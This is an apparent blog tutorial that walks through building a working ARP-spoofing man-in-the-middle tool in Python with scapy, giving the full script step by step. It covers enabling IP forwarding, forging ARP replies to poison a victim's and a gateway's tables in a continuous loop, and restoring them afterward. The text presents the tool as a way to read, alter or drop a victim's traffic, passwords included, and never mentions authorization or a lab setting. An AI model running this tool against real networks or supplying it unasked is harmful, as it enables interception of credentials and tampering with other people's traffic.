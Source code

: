 ```yaml
---
layout: post
comments: true
title:  "How to Build an ARP Spoofing Tool Using Python"
date:   2019-03-08 00:02:14
categories: Python, ARP Spoofing, ARP Table Poisoning, Kali, Scapy, Layer 2.5, Data Link Layer
---
```


In this documentation, I will go through the process on how to build an ARP Spoofing program. ARP Spoofing enables us to redirect the flow of packets. Hence, we can use this tool to redirect packets to flow through our computer.

Therefore, any requests sent and responses received by the target client computer, will have to flow through our computer (attack machine) since we are the MITM (Man In The Middle). Hence, images, usernames, passwords, websites or any information entered by the target client will have to flow through our attack machine. Then, by using the ARP Spoofing tool, we can read this information, modify it, or even drop the packets. This is all possible because ARP is not very secure.

Before I go into why ARP is not secure, let's discuss why ARP is used. ARP is used so that clients can identify other connected clients on the same network, and next, they can get the clients MAC address. The reason being, clients on the same network connect with each other using the MAC address. (Note: here, each client device on the same network has an ARP table which links ip addresses to it's respective MAC address.) In order to view your network ARP table, type the following in terminal:
```shell
arp -a
```

Unfortunately, the MAC address can be modified by exploiting the ARP protocol. In order to exploit this protocol we will send *two ARP responses*. One response to the gateway AP(i.e. router access point) and another response to the target client (i.e. victim's computer). Here, we will tell the gateway that our attack machine is at the IP of the target client. Hence, the gateway AP will update it's ARP table and it will associate the IP of the target client with our attack machine's MAC address. We will do the same response process with the target client machine, making it modify its ARP table so that it will associate thee IP of the gateway AP with our attack machine's MAC address.

Therefore, we end up fooling the target client computer that our attack machine is the gateway AP and the gateway AP will think our attack machine is the target client computer.
Hence, to sum everything up, whenever the target client sends a request, it will flow through our attack machine and then we will port forward it to the gateway AP. The same process applies for the gateway AP. So, when the gateway AP sends a response it will flow through our attack machine and then we will send that response to the target client. Therefore, this makes us the man in the middle of the connection.

*Why ARP is not secure?*
As listed above, clients *accept responses* even if they did not send a request. Also, the reason clients accept responses is because they trust the incoming response without any form of verification.

**Process on How to Build an ARP Spoofing Program**

1. Since the attack machine is not a router, when it get's requests, it stops the packets from flowing through it and going to the router. This happens because it is a security feature in Linux systems. Therefore, we need to enable port forwarding, so that the attack machine will allow packets to flow through it just like a router. In order to accomplish this, open a terminal window and type the following command to enable port forwarding.
    ```shell
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
(Note: Linux comes with a built in ARP Spoofing tool, However let's create our own ARP Spoofing tool.)

2. Next, let's create a new python file using any IDE you prefer and we will start off by importing the the necessary modules to complete the task. Here, I added a shebang at the beginning of the script, so that the script recognizes the interpreter type when you execute the script from shell. Here, by using the scapy module, we can create, and send an ARP response. Plus, we can use scapy to extract a MAC address. The time module will help us handle time delay to send packets, which you will see further into the documentation. Finally, the sys module will help us flush the output buffer which you will also see in the later steps.
    ```python
    #!usr/bin/env python

    import scapy.all as scapy
    import time
    import sys
    ```

3. Next, we will create two global variables to save the target client IP address, and the gateway access point IP address.
    ```python
    target_ip = "10.15.20.6"
    gateway_ip = "10.15.20.1"
    ```

4. Next, let's create a function to extract MAC address. Here, we will use the scapy module, which lets us do the same functions as Netdiscover and NMap: to scan the network. (See python comments for info.)
    ```python
    def get_mac(ip):
        arp_request = scapy.ARP(pdst=ip)  #using scapy module to create ARP packet object and .ARP to ask who has target client IP
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff") #set destination MAC to broadcast MAC
        arp_request_broadcast = broadcast/arp_request #scapy allows us to combine both ARP request and also broadcast at the same time
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0] #send packet and receive response
        return answered_list[0][1].hwsrc
    ```
(Note: Disable NAT network in using virtual machine when using an external adapter to discover systems.)

5. Next, let's go ahead and create a function to create ARP responses and send those responses in order to spoof the desired machine. Which means, we can poison the ARP table, which will put is in the middle of the connection. From the scapy module, we will use the "op" field and let's set it to the integer 2 in order to send an ARP response. Because, by default "op" is set to 1, which means it will always send an ARP request when an ARP packet is created. Below, pdst is set to the target clients IP address (destination IP: which is the target machine to be poisoned), hwdst is set to target clients MAC address which is obtained from the get_mac function and psrc is set to the IP address we want to spoof. Basically psrc is the source of where the response is coming from and here we fake the IP and set the IP of the AP router.
    ```python
    def spoof(target_ip, spoof_ip):
        target_mac = get_mac(target_ip)
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False) #scapy.send will send the packets for us
    ```
(Note: Do route -n to get IP of router and also for more info on scapy, go to python interpreter and type "import scapy.all as scapy" and then type "scapy.ls(scapy.ARP)" to view all the option fields of the scapy module. Also, even tho we dont mention it above, scapy will set the hwsrc to our attack machine MAC address by default.) Next, once scapy.send is executed, the ARP table of target client machine should be poisoned. Do "arp -a" from target client side to confirm.

6. Next, we will write a function to restore the ARP tables, so that when we quit the program it will revert the ARP tables and associate the IP address with the correct Mac address. Hence, the traffic can start flowing normally. The need for a restore function is if the ARP table is not restored, we will still be the MITM even if we quit the program. (Note: After some time the ARP tables will go back to default, because we are not continuously sending spoofing response packets. However, it is better practice to restore everything to the way it was, when we quit the program.)
    ```python
    def restore(destination_ip, source_ip):
        destination_mac = get_mac(destination_ip)
        source_mac = get_mac(source_ip)
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        scapy.send(packet, count=4, verbose=False) #here count=4 is to send packet response 4 times. verbose=False so that scapy.send runs in the background
    ```
(Note: here we need to specify the source MAC address - hwsrc or else scapy will set the hwsrc to our attack machine MAC address by default.)

7. Finally, we can start using the above functions. We will use the spoof function twice, the first spoof call is to tell the target client machine (victim) that our attack machine has the gateway AP (router) MAC address. A second spoof function call is to tell the gateway AP (router) that our attack machine has the target client machine (victim) MAC addresss. This will make us the MITM of the connection. However, in order to maintain the poisoning of the target ARP tables, we need to continuously send ARP responses. Therefore, we will do a while loop that will send a ARP spoof to both target client and gateway AP every two seconds. This is possible by using the time module, which will put the while loop to sleep for 2 seconds.
    ```python
    try:
        sent_packets_count = 0
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            sent_packets_count = sent_packets_count + 2
            print("\r[+] Packets sent: " + str(sent_packets_count)),
            sys.stdout.flush()
            time.sleep(2)
    except KeyboardInterrupt: #to make the tool UI pretty, use try/except block, so that error is not shown when user does a keyboard interruption.
        print("\n[-] CTRL + C : Keyboard Interruption => Restoring ARP tables now. Please wait...\n")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
    ```
(Note: python buffers everything when you have a comma after a print statement. Meaning, everything will be printed in the background, and you will see all the print statements when you CTRL + C. Therefore, we will tell python to flush this buffer and print statements instantly using sys.stdout.flush() Therefore, the program won't wait for the user to CTRL + C in order to show output of print statements. After this line of code, everything will start to print in one line. To avoid this ugly screen output, I over-write the previous print statement and replace a new print statement by using '\r' which tells python to print statements from the start of the line. Hence, now it will dynamically print the sent packets statement.)

* The above sys.stdout.flush() only works with python 2.7 and below. For python 3 use:
    ```Python
    print("\r[+] Packets sent: " + str(sent_packets_count), end="") #Where end="" will tell python not to add anything to the end of the print statement.
    ```
